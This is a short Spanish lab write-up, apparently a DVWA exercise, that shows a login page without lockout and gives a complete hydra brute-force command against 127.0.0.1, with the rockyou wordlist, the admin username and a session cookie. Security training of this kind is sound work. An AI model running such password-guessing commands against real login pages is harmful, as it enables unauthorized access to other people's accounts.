 # 1.1 Brute Force

Esta sección nos permite probar la vulnerabilidad de la fuerza bruta. 
Podemos observar que, si fallamos la contraseña, podremos probar cuanto queramos sin bloqueos ni restricciones.

![](/img/imagen1.JPG)  
Imagen 1 - BruteForce  
Luego procedemos a hacer a probarlo con fuerza bruta, con hydra, con el siguiente comando hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346" 

![](/img/imagen2.JPG)  
Imagen 2 - BruteForceLow

